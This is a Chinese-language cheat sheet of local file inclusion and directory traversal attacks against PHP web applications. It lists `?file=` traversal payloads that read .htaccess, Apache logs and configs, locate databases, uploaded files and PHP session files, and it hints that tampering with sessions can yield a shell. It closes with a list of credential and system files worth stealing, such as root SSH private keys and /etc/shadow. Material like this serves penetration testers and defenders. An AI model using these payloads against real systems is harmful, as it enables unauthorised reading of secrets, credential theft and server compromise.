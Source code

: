### 攻击方式

#### 包含同目录下的文件

::: tip 攻击方式
?file=.htaccess
:::

#### 目录遍历

::: tip 攻击方式
?file=../../../../../../../../../var/lib/locate.db<br>
?file=../../../../../../../../../var/lib/mlocate/mlocate.db<br>
(linux 中这两个文件储存着所有文件的路径, 需要 root 权限)
:::

#### 包含错误日志

::: tip 攻击方式
?file=../../../../../../../../../var/log/apache/error.log
:::

#### 获取 web 目录或者其他配置文件

::: tip 攻击方式
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf
:::

#### 包含上传的附件

::: tip 攻击方式
?file=../attachment/media/xxx.file
:::

#### 读取 session 文件

::: tip 攻击方式
?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7<br>
(session 文件一般在 /tmp 目录下, 格式为 `sess\_[your phpsessid value]` , 有时候也有可能在/var/lib/php5 之类的, 在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制 session 的值, 也许你能够获得一个 shell)
:::

#### 系统中重要文件(需要 root 权限)

* `/root/.ssh/authorized_keys` 
* `/root/.ssh/id_rsa` 
* `/root/.ssh/id_rsa.keystore` 
* `/root/.ssh/id_rsa.pub` 
* `/root/.ssh/known_hosts` 
* `/etc/shadow` 
* `/root/.bash_history` 
* `/root/.mysql_history` 
* `/proc/self/fd/fd[0-9]* (文件标识符)` 
* `/proc/mounts` 
* `/proc/config.gz` 
